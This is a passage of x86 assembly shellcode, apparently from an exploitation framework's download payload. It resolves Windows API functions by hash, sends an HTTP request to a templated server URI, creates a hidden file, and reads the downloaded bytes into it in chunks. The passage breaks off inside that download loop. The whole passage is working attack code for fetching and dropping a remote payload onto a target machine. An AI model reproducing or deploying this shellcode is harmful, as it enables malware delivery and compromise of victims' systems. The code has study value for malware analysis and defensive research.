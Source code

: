 		httpsendrequest:
		  xor edi, edi
		  push edi               ; optional length
		  push edi               ; optional
		  push edi               ; dwHeadersLength
		  push edi               ; headers
		  push esi               ; hHttpRequest
		  push 0x7B18062D        ; hash( "wininet.dll", "HttpSendRequestA" )
		  call ebp
		  test eax,eax
		  jnz create_file
		
		try_it_again:
		  dec ebx
		  jz thats_all_folks	; failure -> exit
		  jmp.i8 set_security_options
		
		dbl_get_server_host:
		  jmp get_server_host
		
		get_server_uri:
		  call httpopenrequest
		
		server_uri:
		  db "#{server_uri}", 0x00
		
		create_file:
		  jmp.i8 get_filename
		
		get_filename_return:
		  xor eax,eax       ; zero eax
		  pop edi           ; ptr to filename
		  push eax          ; hTemplateFile
		  push 2            ; dwFlagsAndAttributes (Hidden)
		  push 2            ; dwCreationDisposition (CREATE_ALWAYS)
		  push eax          ; lpSecurityAttributes
		  push 2            ; dwShareMode
		  push 2            ; dwDesiredAccess
		  push edi          ; lpFileName
		  push 0x4FDAF6DA   ; kernel32.dll!CreateFileA
		  call ebp
		
		download_prep:
		  xchg eax, ebx     ; place the file handle in ebx
		  xor eax,eax       ; zero eax
		  mov ax,0x304      ; we'll download 0x300 bytes at a time
		  sub esp,eax       ; reserve space on stack
		
		download_more:
		  push esp          ; &bytesRead
		  lea ecx,[esp+0x8] ; target buffer
		  xor eax,eax
		  mov ah,0x03       ; eax => 300
		  push eax          ; read length
		  push ecx          ; target buffer on stack
		  push esi          ; hRequest
		  push 0xE2899612   ; hash( "wininet.dll", "InternetReadFile" )
		  call ebp
		